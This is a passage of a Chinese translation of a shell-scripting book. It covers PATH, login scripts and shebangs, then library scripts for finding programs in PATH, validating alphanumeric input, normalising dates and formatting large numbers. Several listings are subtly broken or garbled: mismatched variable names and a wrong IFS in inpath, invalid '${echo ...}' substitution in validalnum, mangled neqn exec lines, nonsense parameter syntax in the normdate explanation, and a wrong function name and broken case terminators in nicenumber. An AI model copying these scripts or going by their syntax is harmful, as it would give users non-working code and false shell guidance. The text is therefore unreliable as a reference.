`Bash` 的核心能力是在你的系统上运行命令。让我们尝试一个简单的 “Hello World” 示例。在 `bash` shell 中，`echo` 命令将文本显示在屏幕上，如下所示：

```bash
$ echo "Hello World"
```

在 `bash` 命令行中输入此内容，你将看到屏幕上显示 Hello World。这行代码运行了存储在你标准 `bash` 库中的 `echo` 命令。`bash` 搜索这些标准命令的目录存储在一个名为 `PATH` 的环境变量中。你可以将 `echo` 与 `PATH` 变量一起使用来查看其内容，如代码清单 0-1 所示。

```bash
$ echo $PATH
/Users/bperry/.rvm/gems/ruby-2.1.5/bin:/Users/bperry/.rvm/gems/ruby-2.1.5@global/bin:/Users/bperry/.rvm/rubies/ruby-2.1.5/bin:/usr/local/bin:/usr/bin:/usr/sbin:/usr/sbin:/sbin:/opt/X11/bin:/usr/local/MacGP2/bin:/Users/bperry/.rvm/bin
```

代码清单 0-1：打印当前的 `PATH` 环境变量

> **注意** 在同时显示输入命令和输出的代码清单中，输入命令将以粗体显示，并以 `$` 开头，以将其与输出区分开。

输出中的目录由冒号分隔。当你要求 `bash` 运行某个程序或命令时，它会检查所有这些目录。如果你的命令没有存储在这些目录中的任何一个中，`bash` 就无法运行它。此外，请注意 `bash` 将按照它们在 `PATH` 中出现的顺序检查这些目录。这个顺序很重要，因为如果你在 `PATH` 的两个目录中具有两个同名命令，结果可能会有所不同。如果你在寻找某个特定命令时遇到困难，可以使用 `which` 命令配合该命令的名称来查看它在 shell 中的 `PATH`，如代码清单 0-2 所示。

```bash
$ which ruby
/Users/bperry/.rvm/rubies/ruby-2.1.5/bin/ruby
$ which echo
/bin/echo
```

代码清单 0-2：使用 `which` 在 `PATH` 中查找命令

现在掌握了这些信息，你可以将相关文件移动或复制到 `echo $PATH` 命令（如代码清单 0-1 所示）列出的其中一个目录中，然后该命令就可以运行了。我们在全书中使用 `which` 来确定命令的完整路径。它是调试损坏或异常 `PATH` 的有用工具。

### 配置你的登录脚本

在整本书中，我们将编写一些脚本，然后将其在其他脚本中使用，因此能够轻松调用你的新脚本非常重要。你可以配置 `PATH` 变量，这样当你启动一个新的命令行 shell 时，你的自定义脚本就可以像任何其他命令一样自动调用。当你打开一个命令行 shell 时，它做的第一件事就是读取家目录（在 OS X 或 Linux 中分别为 `/Users/<username>` 或 `/home/<username>`）中的登录脚本，并执行其中发现的任何自定义命令。根据你的系统，登录脚本可能是 `.login`、`.profile`、`.bashrc` 或 `.bash_profile`。要找出这些文件中哪个是登录脚本，请在每个文件中添加如下行：

```bash
echo this is .profile
```

修改最后一个单词以匹配文件名，然后登录。该行应该会打印在终端窗口的顶部，报告登录时运行了哪个脚本。如果你打开终端并看到 `this is .profile`，你就知道 `.profile` 文件正被加载到你的 shell 环境中；如果你看到 `this is .bashrc`，你就知道是 `.bashrc` 文件；以此类推。现在你知道了！不过，这种行为可能会根据你的 shell 而有所不同。

你可以修改登录脚本，使其通过其他目录配置你的 `PATH` 变量。你还可以设置各种 `bash` 设置，从更改 `bash` 提示符的外观到设置自定义 `PATH`，以及任何数量的其他自定义。例如，让我们使用 `cat` 命令来查看一个自定义的 `.bashrc` 登录脚本。`cat` 命令将文件名作为参数，并将文件的内容打印到控制台屏幕上，如代码清单 0-3 所示。

```bash
$ cat ~/.bashrc
export PATH="$PATH:$HOME/.rvm/bin" # Add RVM to PATH for scripting.
```

代码清单 0-3：此自定义 `.bashrc` 文件更新 `PATH` 以包含 RVM。

这段代码显示了 `.bashrc` 文件的内容，表明 `PATH` 被赋予了一个新值，允许本地 RVM（Ruby 版本管理器）安装来管理任何已安装的 Ruby 版本。因为 `.bashrc` 文件在每次打开新命令行 shell 时都会设置自定义 `PATH`，所以 RVM 安装在该系统中默认可用。

你可以实现类似的自定义，使你的 shell 脚本默认可用。首先，你将在家目录中创建一个开发文件夹，用于保存所有的 shell 脚本。然后，你可以将此目录添加到登录文件中的 `PATH`，以便更轻松地引用你的新脚本。

要识别你的家目录，请使用命令 `echo $HOME` 在终端中打印目录路径。导航到该目录并创建你的开发文件夹（我们建议命名为 `scripts`）。然后，要将你的开发目录添加到登录脚本中，请在文本编辑器中打开登录脚本文件，并将以下行添加到文件顶部，将 `/path/to/scripts/` 替换为你开发文件夹的目录。

```bash
export PATH="/path/to/scripts/:$PATH"
```

一旦完成，你保存在开发文件夹中的任何脚本都可以作为 shell 中的命令被调用。

### 运行 Shell 脚本


我们现在已经使用了一些命令，例如`echo`、`which`和`cat`。但我们只是单独使用了它们，而不是在 shell 脚本中将它们全部组合在一起。让我们写一个连续运行所有这些命令的 shell 脚本，如代码清单 0-4 所示。这个脚本将打印`Hello World`，随后打印`neqn` shell 脚本的文件路径（`neqn`是一个在你的 bash 文件中默认应该存在的 shell 脚本）。然后，它将使用此路径将`neqn`的内容打印到屏幕上。（`neqn`的内容目前并不重要；这只是被用作示例脚本。）这是一个使用 shell 脚本按顺序执行一系列命令的绝佳示例，在这种情况下是为了查看文件的完整系统路径并快速检查其内容。

```bash
echo "Hello World"
echo $(which neqn)
cat $(which neqn)
```

代码清单 0-4：我们的第一个 shell 脚本的内容

打开你最喜欢的文本编辑器（Linux 上常用的有 Vim 或 gedit，OS X 上常用 TextEdit），输入代码清单 0-4。然后将该 shell 脚本保存到你的开发目录中，命名为`intro`。Shell 脚本不需要特殊的扩展名，所以可以将扩展名留空（如果你愿意，也可以添加`.sh`扩展名，但这并非必需）。shell 脚本的第一行使用`echo`命令简单地打印文本`Hello World`。第二行稍微复杂一点；它使用`which`查找 bash 文件`neqn`的位置，然后使用`echo`命令将该位置打印到屏幕上。为了像这样运行两个命令（其中一个命令作为另一个命令的参数），bash 使用一个`subshell`（子 shell）来运行第二个命令，并将输出存储起来供第一个命令使用。在我们的示例中，子 shell 运行`which`命令，该命令将返回`neqn`脚本的完整路径。然后此路径被用作`echo`的参数，这意味着`echo`将`neqn`的路径打印到屏幕上。最后，同样的子 shell 技巧将`neqn`的文件路径传递给`cat`命令，从而将`neqn` shell 脚本的内容打印到屏幕上。

文件保存后，我们可以从终端运行该 shell 脚本。代码清单 0-5 显示了结果。

```bash
$ sh intro
❶ Hello World
❷ /usr/bin/neqn
❸ #!/bin/sh
# Provision of this shell script should not be taken to imply that use of
# GNU eqn with groff -Tascii|-Tlatin1|-Tutf8|-Tcp1047 is supported.

GROFF_RUNTIME="${GROFF_BIN_PATH=/usr/bin}:"
PATH="$GROFF_RUNTIME$PATH"
export PATH
exec eqn -Tascii ${1:"$#"}@"

# eof
$
```

代码清单 0-5：运行我们的第一个 shell 脚本

通过使用`sh`命令并传递`intro`脚本作为参数来运行该 shell 脚本。`sh`命令将逐行读取文件并执行，就像在终端中输入 bash 命令一样。你可以看到，`Hello World` ❶ 被打印到屏幕上，然后打印出`neqn`的路径 ❷。最后，`neqn`文件的内容被打印出来 ❸；这是你硬盘上那个简短的`neqn` shell 脚本的源代码（至少在 OS X 上是这样——Linux 版本可能略有不同）。

### 让 Shell 脚本更直观

你不需要使用`sh`命令来运行脚本。如果你在`intro` shell 脚本中再添加一行，并修改脚本的文件系统权限，你就可以像调用其他 bash 命令一样直接调用该 shell 脚本，而无需使用`sh`。在你的文本编辑器中，将`intro`脚本更新为以下内容：

```bash
❶ #!/bin/bash
echo "Hello World"
echo $(which neqn)
cat $(which neqn)
```

我们在文件的最顶部添加了一行，引用了文件系统路径`/bin/bash` ❶。这一行被称为 *shebang*。shebang 允许你定义运行哪个程序来解释该脚本。在这里，我们将该文件设置为 bash 文件。你可能见过其他的 shebang，比如用于 Perl 语言的（`#!/usr/bin/perl`）或 Ruby 的（`#!/usr/bin/env ruby`）。

在顶部添加了这一行之后，你仍然需要设置文件权限，以便你可以像运行程序一样执行该 shell 脚本。在 bash 终端中执行此操作，如代码清单 0-6 所示。

```bash
❶ $ chmod +x intro
❷ $ ./intro
   Hello World
```

```bash
/usr/bin/neqn
#!/bin/sh
# Provision of this shell script should not be taken to imply that use of
# GNU eqn with groff -Tascii|-Tlatin1|-Tutf8|-Tcp1047 is supported.

GROFF_RUNTIME="${GROFF_BIN_PATH=/usr/bin}:"
PATH="$GROFF_RUNTIME$PATH"
export PATH
exec eqn -Tascii "$1""$#"

# eof
$
$
```

代码清单 0-6：更改`intro`脚本的文件权限以允许执行

我们使用`chmod +x`（更改模式命令），并传递`+x`参数，这使文件具有可执行权限。我们将要更改的文件名传递给该命令。在将文件权限设置为允许 shell 脚本作为程序运行后，我们可以像 ❷ 所示那样运行 shell 脚本，而无需直接调用 bash。这是一个良好的 shell 脚本编写习惯，并且在你磨练技巧的过程中会证明其有用性。我们在本书中编写的大多数脚本都需要设置与`intro`脚本相同的可执行权限。

这只是一个简单的示例，向你展示如何运行 shell 脚本以及如何使用 shell 脚本运行其他 shell 脚本。书中的许多 shell 脚本都将使用这种方法，在你未来的 shell 脚本探索中，你会经常看到 shebang。

### 为什么使用 Shell 脚本？

你可能会好奇，为什么要使用 bash shell 脚本而不是像 Ruby 或 Go 这样花哨的新语言。这些语言试图在多种类型的系统之间提供可移植性，但它们通常不是默认安装的。原因很简单：每台 Unix 机器都有一个基础 shell，而且绝大多数 shell 都使用 bash。正如本章开头提到的，微软最近发布的 Windows 10 搭载了与主要 Linux 发行版和 OS X 相同的 bash shell。这意味着你的 shell 脚本可以比以往任何时候都更具可移植性，而无需你付出太多努力。此外，与使用其他语言相比，你可以更简洁、更轻松地使用 shell 脚本完成维护和系统任务。Bash 在某些方面仍然有所欠缺，但你将在本书中学习如何弥补这些不足。

代码清单 0-7 展示了一个实用的小 shell 脚本示例（实际上只是一个 bash 一行命令！），它具有完全的可移植性。该脚本用于计算一个包含 OpenOffice 文档的文件夹中有多少页——这对作者来说尤其有用。

```bash
#!/bin/bash
echo "$(exiftool *.odt | grep Page-count | cut -d ":" -f2 | tr '\n' '+' )" | bc
```

代码清单 0-7：一个用于确定 OpenOffice 文档文件夹中总页数的 bash 脚本

我们不会深入探讨它的工作细节——毕竟我们才刚刚开始！但从高层次来看，它提取每个文档的页数信息，用加号将页数连接起来，然后将算式通过管道传递给命令行计算器以生成总和。所有这些基本上都在一行内完成。在全书中，你会发现更多像这样酷炫的 shell 脚本，而且在你经过一些练习之后，这个脚本将变得清晰易懂且非常简单！

### 开始行动吧

如果你之前还没有概念，现在你应该对 shell 脚本大概了解了。创建小型脚本来完成特定任务是 Unix 哲学的核心。了解如何编写自己的脚本并扩展自己的 Unix 系统以更好地满足需求，将使你成为一名高级用户。本章只是本书内容的冰山一角：接下来还会有一些非常酷的 shell 脚本！

# 1：缺失的代码库

**Unix 最大的优势之一是它允许你通过以新颖的方式组合旧命令来创建新命令。但尽管 Unix 包含数百个命令，并且有数千种组合方式**，你仍然会遇到没有任何命令能完全胜任工作的情况。本章将重点介绍让你在 shell 脚本世界中创建更智能、更复杂程序的敲门砖。

还有一点我们需要提前说明：shell 脚本的编程环境不像真正的编程环境那样先进。Perl、Python、Ruby 甚至 C 都有提供扩展能力的结构和库，但 shell 脚本更多的是一个“自力更生”的世界。本章中的脚本将帮助你在那个世界中前行。它们是构建块，将帮助你编写本书后面出现的那些酷炫的 shell 脚本。

脚本编写的许多挑战还源于不同版本的 Unix 之间以及许多不同 GNU/Linux 发行版之间的细微差异。虽然 IEEE POSIX 标准旨在为所有 Unix 实现提供一个共同的功能基础，但在 Red Hat GNU/Linux 环境中使用一年后，再使用 OS X 系统可能仍然会感到困惑。命令不同，位置不同，而且它们的命令标志（flags）往往有细微的差别。这些差异会让编写 shell 脚本变得棘手，但我们将学习一些技巧来应对这些差异。

### 什么是 POSIX？

Unix 的早期阶段就像“西部蛮荒时代”，各家公司在进行创新并将操作系统引向不同方向的同时，又向客户保证所有这些新版本都是相互兼容的，并且和任何其他 Unix 都一样。电气电子工程师学会（IEEE）介入，在所有主要 Unix 供应商的巨大努力下，为 Unix 创建了一个标准定义，称为可移植操作系统接口（Portable Operating System Interface），简称为 POSIX，所有商业和开源 Unix 实现都以此作为衡量标准。你不能直接买到一个名为“POSIX”的操作系统，但你运行的 Unix 或 GNU/Linux 通常是 POSIX 兼容的（尽管关于在 GNU/Linux 已经成为事实标准的情况下是否还需要 POSIX 标准仍存在争议）。

与此同时，即使是 POSIX 兼容的 Unix 实现也可能存在差异。本章稍后讨论的一个例子涉及`echo`命令。该命令的某些版本支持`-n`标志，该标志可禁用作为命令执行标准部分的末尾换行符。其他版本的`echo`支持`\c`转义序列作为特殊的“不包含换行符”标记，而还有一些版本根本无法避免输出末尾的换行符。更有趣的是，一些 Unix 系统拥有一个带有内置`echo`函数的命令 shell，它会忽略`-n`和`\c`标志，同时又有一个独立的二进制文件`/bin/echo`可以理解这些标志。这使得在 shell 脚本中提示输入变得很困难，因为脚本应该在尽可能多的 Unix 系统上运行一致。因此，对于功能性脚本来说，将`echo`命令标准化以便在不同系统上以相同方式工作至关重要。在本章稍后的第 33 页脚本 #8 中，我们将看到如何将`echo`包装在 shell 脚本中，以创建这样一个标准化的命令版本。

> **注意** 本书中的某些脚本利用了 bash 风格的特性，这些特性可能不被所有 POSIX 兼容的 shell 所支持。

背景介绍就到这里——让我们开始查看要加入到 shell 脚本库中的脚本吧！

### #1 在 PATH 中查找程序

使用环境变量（如`MAILER`和`PAGER`）的 Shell 脚本存在一个潜在危险：其中一些设置可能会指向不存在的程序。如果你之前没有接触过这些环境变量，`MAILER`应该被设置为你偏好的电子邮件程序（例如`/usr/bin/mailx`），而`PAGER`则应设置为你用于分屏（分页）查看长文档的程序。例如，如果你决定灵活一点，使用`PAGER`设置来显示脚本输出，而不是使用系统的默认分页程序（常见值为`more`或`less`程序），那么你如何确保`PAGER`环境变量被设置为一个有效的程序呢？

第一个脚本将探讨如何测试给定的程序是否可以在用户的`PATH`中被找到。它也是对多种不同 Shell 脚本编写技巧的良好演示，包括脚本函数和变量切片。清单 1-1 展示了如何验证路径是否有效。

#### 代码

```bash
#!/bin/bash

# inpath--验证指定程序是本身有效，
# 还是可以在 PATH 目录列表中被找到

in_path()
{
    # 给定一个命令和 PATH，尝试寻找该命令。如果
    # 找到且可执行则返回 0；否则返回 1。注意这会临时修改
    # IFS（内部字段分隔符），但在完成后会将其恢复。

    cmd=$1          outpath=$2      result=1
    oldIFS=$IFS     IFS=" "

    for directory in "$ourpath"
    do
        if [ -x $directory/$cmd ] ; then
            result=0        # 如果运行到这里，说明找到了该命令。
        fi
    done

    IFS=$oldIFS
    return $result
}

checkForCmdInPath()
{
    var=$1

    if [ "$var" != "" ] ; then
        if [ "${var:0:1}" = "/" ] ; then
            if [ ! -x $var ] ; then
                return 1
            fi
        fi
    elif ! in_path "$var" "$PATH"; then
        return 2
    fi
}
```

清单 1-1：`inpath` Shell 脚本函数

正如第 0 章所述，我们建议你在主目录下创建一个名为`scripts`的新目录，然后将该完整限定目录名添加到你的`PATH`变量中。使用`echo $PATH`查看当前的`PATH`，并编辑登录脚本（根据 Shell 的不同，可能是`.login`、`.profile`、`.bashrc`或`.bash_profile`）的内容以适当修改`PATH`。详情请参阅第 4 页的“配置登录脚本”。

> **注意** 如果你在终端中使用`ls`命令列出文件，某些特殊文件（如`.bashrc`或`.bash_profile`）起初可能不会显示。这是因为以点号（`.`）开头的文件（如`.bashrc`）被文件系统视为“隐藏”文件。（这在 Unix 早期被证明是一个由 bug 演变成的特性。）要列出目录中的所有文件（包括隐藏文件），请在`ls`中使用`-a`参数。

绝对值得再次提到的是，假设你在运行所有这些脚本时使用的是 bash 作为 Shell。请注意，此脚本明确地将第一行（称为 shebang）设置为调用`/bin/bash`。许多系统也支持使用`/usr/bin/env bash`作为脚本运行时的 shebang 设置。

#### 关于注释的说明

我们曾纠结是否要为每个脚本提供详细的运行原理解释。在某些情况下，我们会在代码之后对复杂的编码片段进行解释，但总的来说，我们将使用代码注释在上下文中解释发生了什么。请寻找以`#`符号开头的行，或者有时是代码行中`#`之后出现的任何内容。

由于你无疑会阅读他人的脚本（当然，除了我们的！），通过阅读注释来练习弄清楚脚本中到底发生了什么是非常有用的。在编写自己的脚本时，养成写注释的良好习惯也非常重要，这能帮助你定义在特定代码块中想要实现的目标。

#### 工作原理

使`checkForCmdInPath`正常工作的关键在于它能够区分仅包含程序名称（如`echo`）的变量和包含完整目录路径加文件名（如`/bin/echo`）的变量。它通过检查给定值的第一个字符是否为`/`来实现；因此，我们需要将第一个字符与变量值的其余部分隔离。

请注意，如 ① 所示的变量切片语法`${var:0:1}`是一种简写记法，允许你指定字符串中的子串，从某个偏移量开始，直到给定长度（如果不提供长度，则返回字符串的整个剩余部分）。例如，表达式`${var:10}`将返回从第 10 个字符开始的`$var`的剩余值，而`${var:10:5}`将子串限制在位置 10 到 15 之间（含）。你可以通过下面的例子理解我们的意思：

```bash
$ var="something wicked this way comes..."
$ echo ${var:10}
wicked this way comes...
$ echo ${var:10:6}
wicked
$
```

在清单 1-1 中，该语法仅用于检查指定路径是否以斜杠开头。一旦我们确定传递给脚本的路径是否以斜杠开头，我们就会检查是否真的能在文件系统中找到该路径。如果路径以`/`开头，我们认为给定的路径是绝对路径，并使用`-x` bash 运算符 ② 检查它是否存在。否则，我们将该值传递给我们的`inPath`函数 ③，以查看该值是否可以在默认`PATH`中设置的任何目录中被找到。

#### 运行脚本

要将此脚本作为独立程序运行，我们首先需要在文件末尾附加一小段命令。如这里所示，这些命令将执行基本工作：使用用户输入并将其传递给编写的函数。


```bash
if [ $# -ne 1 ] ; then
    echo "Usage: $0 command" >&2
    exit 1
fi

checkForCmdInPath "$1"
case $? in
    0 ) echo "$1 found in PATH"
                                ;;
    1 ) echo "$1 not found or not executable"
                                ;;
    2 ) echo "$1 not found in PATH"
                                ;;
esac

exit 0
```

添加代码后，你可以直接调用脚本，如下文“运行结果”所示。不过，请务必在用完脚本后删除或注释掉这段额外代码，以便以后将其作为库函数包含而不会产生干扰。

#### 运行结果

为了测试该脚本，让我们使用三个程序的名称来调用`inpath`：一个存在的程序、一个存在但不在`PATH`中的程序，以及一个不存在但具有完整限定文件名和路径的程序。清单 1-2 展示了该脚本的一个测试示例。

```bash
$ inpath echo
echo found in PATH
$ inpath MrEcho
MrEcho not found in PATH
$ inpath /usr/bin/MrEcho
/usr/bin/MrEcho not found or not executable
```

清单 1-2：测试`inpath`脚本

我们添加的最后一段代码将`in_path`函数的结果转换为更易读的内容，因此现在我们可以看到这三种情况都得到了预期的处理。

#### 改造脚本

如果你想在第一个脚本中就展现出“代码忍者”的水平，可以将表达式`${var:0:1}`切换为它更复杂的表亲：`${var%${var#?}}`。这是 POSIX 变量切片方法。这个看似乱码的表达式实际上是两个嵌套的字符串切片。内部调用`${var#?}`提取除第一个字符以外的`var`中的所有内容，其中`#`是删除给定模式第一个实例的调用，而`?`是匹配恰好一个字符的正则表达式。

接下来，调用`${var%pattern}`会生成一个子串，其中包含从`var`中移除指定`pattern`后剩余的所有内容。在这种情况下，被移除的模式是内部调用的结果，因此剩下的就是字符串的第一个字符。

如果你觉得这种 POSIX 记法太古怪，大多数 Shell（包括`bash`、`ksh`和`zsh`）都支持另一种变量切片方法`${varname:start:size}`，这也是脚本中所使用的。

当然，如果你不喜欢这两种提取第一个字符的技术，你也可以使用系统调用：`` `echo $var | cut -c1` ``。在`bash`编程中，解决同一个问题可能有多种方法，无论是提取、转换还是以不同方式从系统加载数据。重要的是要意识到并理解，这种“条条大路通罗马”的方法并不意味着某种方法一定比另一种更好。

此外，如果你想创建这个脚本（或任何脚本）的一个版本，使其能够区分它是作为独立程序运行还是从另一个脚本中被调用，可以考虑在开头附近添加一个条件测试，如这里所示：

```bash
if [ "$BASH_SOURCE" = "$0" ]
```

亲爱的读者，在进行一些实验之后，我们将剩下的代码片段留给你来练习编写！

> **注意** 第 150 页的脚本 #47 是一个非常有用的脚本，它与本脚本密切相关。它能够同时验证`PATH`中的目录以及用户登录环境中的环境变量。

### #2 输入验证：仅限字母数字

用户经常忽略指示，输入不一致、格式错误或语法不正确的数据。作为一名 shell 脚本开发人员，你需要在这些错误变成问题之前识别并标记它们。

一个典型的场景涉及文件名或数据库键。你的程序提示用户输入一个应该是*字母数字（alphanumeric）*的字符串，该字符串仅由大写字符、小写字符和数字组成——没有标点，没有特殊字符，没有空格。他们输入的是否为有效字符串？这就是代码清单 1-3 中的脚本所测试的内容。

#### 代码

```bash
#!/bin/bash
# validAlphaNum--确保输入仅由字母和数字字符组成

validAlphaNum()
{
    # 验证参数 0：如果全部为 ^大写+小写+数字，则返回 0；否则返回 1

    # 删除所有不可接受的字符。
    validchars="${echo $1 | sed -e 's/[^[:alnum:]]//g'}"

    if [ "$validchars" = "$1" ] ; then
        return 0
    else
        return 1
    fi
}

# 主脚本开始--如果你想将此功能包含在其他脚本中，请删除或注释掉此线以下的所有内容。
# =========================
/bin/echo -n "Enter input: "
read input

# 输入验证
if ! validAlphaNum "$input" ; then
    echo "Please enter only letters and numbers." >&2
    exit 1
else
    echo "Input is valid."
fi

exit 0
```

代码清单 1-3：`validalnum`脚本

#### 工作原理

该脚本的逻辑很直接。首先，通过基于`sed`的转换创建一个输入信息的副本，删除所有无效字符 ➊。然后，将新版本与原始版本进行比较 ➋。如果两者相同，则一切正常。如果不同，则转换过程中丢失了不属于可接受（字母加数字）字符集的数据，且输入无效。

之所以有效，是因为`sed`替换删除了不在`[:alnum:]`集合中的任何字符，这是所有字母数字字符的 POSIX 正则表达式简写。如果此次转换的值与之前输入的原始输入不匹配，则表明输入字符串中存在非字母数字值，从而表明输入无效。该函数返回一个非零结果以表示出现问题。请记住，我们期望的仅是 ASCII 文本。

#### 运行脚本

该脚本是独立运行的。它会提示输入，然后告知你输入是否有效。然而，此函数更典型的用法是将它复制并粘贴到另一个 shell 脚本的顶部，或者将其作为库的一部分引用，如第 42 页的脚本 #12 所示。

`validalnum`也是通用 shell 脚本编程技巧的一个很好例子。编写函数，在将其集成到更大、更复杂的脚本之前对其进行测试。这样做会让你省去很多麻烦。

#### 运行结果

`validalnum` shell 脚本简单易用，要求用户输入一个字符串进行验证。代码清单 1-4 展示了脚本如何处理有效和无效的输入。

```bash
$ validalnum
Enter input: valid123SAMPLE
Input is valid.
$ validalnum
Enter input: this is most assuredly NOT valid, 12345
Please enter only letters and numbers.
```

代码清单 1-4：测试`validalnum`脚本

#### 改进脚本

这种“删除正确字符并查看剩余部分”的方法非常好，因为它很灵活，特别是如果你记得将输入变量和匹配模式（或者完全不使用模式）都包含在双引号中，以避免空输入错误。空模式在脚本编写中是一个持续存在的问题，因为它们会将有效的条件测试变成一个损坏的语句，从而产生错误消息。始终记住，一个包含零个字符的引号短语与一个空白短语是不同的，这大有裨益。

想要要求大写字母但同时允许空格、逗号和句号？只需将 ➊ 处的替换模式改为如下代码：

```bash
sed 's/[^[:upper:]: ,.]//g'
```

你还可以使用类似下面的简单测试来验证电话号码输入（允许整数值、空格、括号和连字符，但不允许前导空格或连续的多个空格）：

```bash
sed 's/[^[:digit:] ()-]//g'
```

但如果你想将输入限制为仅整数值，则必须小心一个陷阱。例如，你可能会尝试这样做：

```bash
sed 's/[^[:digit:]]//g'
```

这段代码对于正数有效，但如果你想允许输入负数怎么办？如果你只是将减号添加到有效字符集中，那么`-3-4`将是有效输入，尽管它显然不是一个合法的整数。第 23 页的脚本 #5 讲解了如何处理负数。

### #3 规范化日期格式

Shell 脚本开发的一个问题是数据格式的不一致；对其进行规范化的难度从稍微棘手到相当困难不等。日期格式是最难处理的之一，因为日期可以用很多种不同的方式指定。即使你提示使用特定的格式（如 月-日-年），你可能会收到不一致的输入：用月份数字代替月份名称，用月份名称的缩写，甚至是用全部大写字母的全称。因此，一个规范化日期的函数，尽管其本身很基础，但对于后续的脚本工作将是一个非常有用的构建模块，尤其是对于第 29 页的脚本 #7。

#### 代码

代码清单 1-5 中的脚本规范化符合相对简单标准集的日期格式：月份必须给出名称或 1 到 12 之间的值，年份必须给出为四位数值。

规范化后的日期由月份名称（三字母缩写）、日期和四位年份组成。

```bash
#!/bin/bash
# normdate--将日期规范中的月份字段规范化为三个字母，首字母大写。
# 为脚本 #7 (valid-date) 提供的辅助函数。
# 若无错误则以 0 退出。

monthNumToName()
{
	# 将 'month' 变量设置为适当的值。
	case $1 in
		1 ) month="Jan" 		;; 2 ) month="Feb" 		;;
		3 ) month="Mar" 		;; 4 ) month="Apr" 		;;
		5 ) month="May" 		;; 6 ) month="Jun" 		;;
		7 ) month="Jul" 		;; 8 ) month="Aug" 		;;
		9 ) month="Sep" 		;; 10) month="Oct" 		;;
		11) month="Nov" 		;; 12) month="Dec" 		;;
		* ) echo "$0: Unknown month value $1" >&2
			exit 1
	esac
	return 0
}

# 主脚本开始--如果你想将此功能包含在其他脚本中，请删除或注释掉此线以下的所有内容。
# =========================

# 输入验证
if [ $# -ne 3 ]; then
	echo "Usage: $0 month day year" >&2
	echo "Formats are August 3 1962 and 8 3 1962" >&2
	exit 1
fi

if [ $3 -le 99 ]; then
	echo "$0: expected 4-digit year value." >&2
	exit 1
fi

# 月份输入格式是数字吗？
if [ -z $(echo $1|sed 's/[[:digit:]]//g') ]; then
	monthNumToName $1
else
	# 规范化为前 3 个字母，首字母大写，其余小写。
	month="$(echo $1|cut -c1|tr '[:lower:]' '[:upper:]')"
	month="$month$(echo $1|cut -c2-3 | tr '[:upper:]' '[:lower:]')"
fi

echo $month $2 $3

exit 0
```

代码清单 1-5：`normdate` shell 脚本

#### 工作原理

注意该脚本中 ➊ 处的第三个条件判断。它从第一个输入字段中删除了所有数字，然后使用`-z`测试查看结果是否为空。如果结果为空，这意味着输入仅由数字组成，因此我们可以使用`monthNumToName`将其直接映射到月份名称，该函数还会验证该数字是否代表一个有效的月份。否则，我们假设第一个输入是月份字符串，并使用一个复杂的`cut`和`tr`管道序列进行规范化，该序列使用了两次子 shell 调用（即由`$()`包围的序列，其中的命令被调用并由其输出替换）。

第一个子 shell 序列在 ➋ 处，它仅提取输入的第一个字符并使用`tr`将其转换为大写（尽管`echo ${1[0]} | cut -c1`序列也可以按照 POSIX 方式写成`${1:^(#1)?}`，如前所述）。第二个序列在 ➌ 处，它提取第二和第三个字符并强制它们为小写，从而产生一个首字母大写的三字母月份缩写。请注意，这种字符串处理方法不会检查输入是否真的是一个有效的月份，这与传递月份数字时不同。

#### 运行脚本

为了确保未来整合`normdate`功能的脚本具有最大的灵活性，此脚本被设计为接受在命令行上输入的三个字段，如代码清单 1-6 所示。如果你预计仅在交互模式下使用此脚本，你会提示用户输入这三个字段，但这会使得从其他脚本调用`normdate`变得更加困难。

#### 运行结果

```bash
$ normdate 8 3 62
normdate: expected 4-digit year value.
$ normdate 8 3 1962
Aug 3 1962
$ normdate AUGUST 03 1962
Aug 03 1962
```

代码清单 1-6：测试`normdate`脚本

请注意，此脚本仅规范化月份的表示方式；日期格式（例如带有前导零的日期）和年份保持不变。

#### 改进脚本

在你对可以通过许多扩展使此脚本更复杂而感到兴奋之前，请查看第 29 页的脚本 #7，它使用了`normdate`来验证输入日期。

不过，你可以进行一项修改，通过在第一个条件语句之前立即添加以下代码，允许脚本接受 MM/DD/YYYY 或 MM-DD-YYYY 格式的日期。

```bash
if [ $# -eq 1 ] ; then # To compensate for / or - formats
  set -- $(echo $1 | sed 's/[\/\-]/ /g')
fi
```

进行此项修改后，你就可以输入并规范化以下常见格式：

```bash
$ normdate 6-10-2000
Jun 10 2000
$ normdate March-11-1911
Mar 11 1911
$ normdate 8/3/1962
Aug 3 1962
```

如果你仔细阅读代码，你会意识到，如果能采用一种更复杂的方法来验证指定日期中的年份，代码将会得到改进，更不用说考虑到各种国际日期格式了。我们将这些作为练习留给你去由你探索！

### #4 以吸引人的方式呈现大数字

程序员经常犯的一个错误是，在将计算结果呈现给用户之前没有对其进行格式化。如果用户需要从右向左数，并在心中每三位插入一个逗号，那么很难快速确定 43245435 是否达到了数百万级别。代码清单 1-7 中的脚本可以美化你的数字格式。

#### 代码


```bash
#!/bin/bash
# nicenumber--Given a number, shows it in comma-separated form. Expects DD
# (decimal point delimiter) and TD (thousands delimiter) to be instantiated.
# Instantiates nicenumer or, if a second arg is specified, the output is
# echoed to stdout.

nicenumber()
{
  # Note that we assume that '.' is the decimal separator in the INPUT value
  # to this script. The decimal separator in the output value is '.' unless
  # specified by the user with the -d flag.

  integer=$(echo $1 | cut -d. -f1)    # Left of the decimal
  decimal=$(echo $1 | cut -d. -f2)    # Right of the decimal

  # Check if number has more than the integer part.
  if [ "$decimal" != "$1" ]; then
    # There's a fractional part, so let's include it.
    result="${DD=.'.'}$decimal"
  fi

  thousands=$integer

  while [ $thousands -gt 999 ]; do
    remainder=$((thousands % 1000))  # Three least significant digits

    # We need 'remainder' to be three digits. Do we need to add zeros?
    while [ ${#remainder} -lt 3 ]; do # Force leading zeros
      remainder="0$remainder"
    done

    result="${TD=,}$remainder${result}"  # Builds right to left
    thousands=$((thousands / 1000)) # To left of remainder, if any
  done

  nicenum="${thousands}${result}"
  if [ -z $2 ]; then
    echo $nicenum
  fi
}

DD="." # Decimal point delimiter, to separate whole and fractional values
TD="," # Thousands delimiter, to separate every three digits

# BEGIN MAIN SCRIPT
# ====================

while getopts "d:t:" opt; do
  case $opt in
    d ) DD="$OPTARG"
      ; ;
    t ) TD="$OPTARG"
      ; ;
  esac
done
shift $(($OPTIND - 1))

# Input validation
if [ $# -eq 0 ]; then
  echo "Usage: $(basename $0) [-d c] [-t c] number"
  echo "  -d specifies the decimal point delimiter"
  echo "  -t specifies the thousands delimiter"
  exit 0
fi

nicenum $1 1  # Second arg forces nicenum to 'echo' output.

exit 0
```

代码清单 1-7：`nicenum`脚本将长数字格式化以提高可读性。

### 工作原理

